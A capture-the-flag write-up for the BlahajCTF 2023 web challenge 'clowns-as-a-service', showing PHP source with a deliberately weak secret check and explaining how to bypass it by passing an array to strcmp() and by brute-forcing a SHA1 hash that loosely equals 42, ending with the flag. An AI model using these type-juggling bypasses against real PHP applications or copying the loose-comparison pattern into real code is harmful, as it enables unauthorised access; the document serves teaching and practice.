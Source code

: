 ```yaml
---
title: clowns-as-a-service
date: 2023-12-05
tags:
- web
- type juggling
- php
categories: BlahajCTF 2023
---
```


> PHP has some inner clown magic like juggling. Can you juggle your way to get the flag?

We are given some source code:

{% ccb lang:php caption:index.php url:'https://gist.github.com/azazazo/036a6890d65e7d65db97116b69010c46' url_text:'source link' gutter1:1-23 %}
<?php

$secret = 'REDACTED';
$flag = 'blahaj{REDACTED}';

$inputsecret = $_POST['secret'];
$meaningoflife = $_POST['meaningoflife'];

# Check if the secret is correct
if (strcmp($inputsecret, $secret) != 0) {
    echo 'come back with correct secret';
}
else{
    # Check if the meaning of life is correct
    if (hash('sha1',$meaningoflife) != 42) {
        echo 'come back with correct meaning of life';
    }
    else{
        echo 'flag: ' . $flag;
    }
}

?>
{% endccb %}

We have to comparisons to break, the first one is a `strcmp()` between our input secret and the actual secret, and the second one is to bypass the hash function.

## Bypassing the first check

To bypass the first strcmp, we just need to submit an array into `$secret`, and the first check will be bypassed. This is because:
1. if you `strcmp()` an array and a string, it will result in `NULL`
2. `NULL` == 0 is true

So when I submit it, I get:
```html
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
come back with correct meaning of life
```

confirming that we have bypassed the first check.

## Bypassing the second check

From [this pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) which is the first result I got when I googled "php type juggling", in Bug #2 (Page 18-22), if a hash is compared to an integer, then as long as we have the integer followed by a non-numeric character in the hash, it will pass through.

{% ccb
html:true %}
<span class="string">"<span class="number">7</span>a5c2...72c933"</span> == int(<span class="number">7</span>)
<span class="string">"<span class="number">42</span>f66...8229bb"</span> == int(<span class="number">42</span>)
<span class="string">"<span class="number">092</span>d1...c410a9"</span> == int(<span class="number">92</span>)
{% endccb %}

I.e., we need to find a sha1 hash that starts with 42, and whose third digit is not a digit (i.e. can only be a, b, c, d, e, f). We can make a python script that generates various hashes like that:

{% ccb caption:hash.py gutter1:1-13 lang:py %}
import hashlib

chars = '0123456789abcdefghijklmnopqrstuvwxyz'
chars = [bytes(c, 'utf-8') for c in chars ]
for i in chars:
    for j in chars:
        for k in chars:
            for l in chars:
                for m in chars:
                    hash = hashlib.sha1(i+j+k+l+m).hexdigest()
                    if hash[:2].isnumeric() and int(hash[:2]) == 42 and not hash[2].isnumeric():
                        print(i+j+k+l+m)
                        print(hash)
{% endccb %}

As it turns out this generates *a lot* of "valid" hashes so I took one (`0sob7` gives `42a5b...1aa52a`), and submitted it as the `meaningoflife`.

I received:
```html
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>10</b><br />
flag: blahaj{php_is_the_biggest_clown_of_all_the_clowns}
```